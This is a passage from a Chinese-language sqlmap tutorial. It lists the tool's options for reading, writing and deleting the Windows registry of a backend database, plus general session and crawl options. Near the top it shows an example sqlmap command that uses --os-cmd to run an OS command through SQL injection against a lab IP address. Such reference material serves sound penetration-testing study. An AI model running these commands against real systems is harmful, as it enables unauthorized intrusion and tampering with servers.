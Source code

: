 linux查看当前用户命令：

sqlmap.py -u”http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1” –os-cmd id -v1

###### 3.14 Windows注册表访问

这些选项可以被用来访问后端数据库管理系统Windows注册表

   

```
–reg-read          读一个Windows注册表项值

   –reg-add           写一个Windows注册表项值数据

   –reg-del           删除Windows注册表键值

   –reg-key=REGKEY    Windows注册表键

   –reg-value=REGVAL  Windows注册表项值

   –reg-data=REGDATA  Windows注册表键值数据

   –reg-type=REGTYPE  Windows注册表项值类型
```

###### 3.15 一般选项

这些选项可以用来设置一些一般的工作参数

   

```
   -s SESSIONFILE     保存和恢复检索会话文件的所有数据

   -t TRAFFICFILE      记录所有HTTP流量到一个文本文件中

   ※ –-batch            从不询问用户输入，使用所有默认配置。

   –binary-fields=..  结果字段具有二进制值(e.g.”digest”)

   –charset=CHARSET   强制字符编码

   –crawl=CRAWLDEPTH  从目标URL爬行网站

   –crawl-exclude=..  正则表达式从爬行页中排除

   –csv-del=CSVDEL    限定使用CSV输出 (default”,”)

   –dump-format=DU..  转储数据格式(CSV(default), HTML or SQLITE)

   –eta              显示每个输出的预计到达时间

   ※ –flush-session     刷新当前目标的会话文件

   –forms           解析和测试目标URL表单

    –fresh-queries     忽略在会话文件中存储的查询结果

   –hex             使用DBMS Hex函数数据检索

   –output-dir=OUT..  自定义输出目录路径

   –parse-errors      解析和显示响应数据库错误信息

   –save=SAVECONFIG   保存选项到INI配置文件

   –scope=SCOPE    从提供的代理日志中使用正则表达式过滤目标

```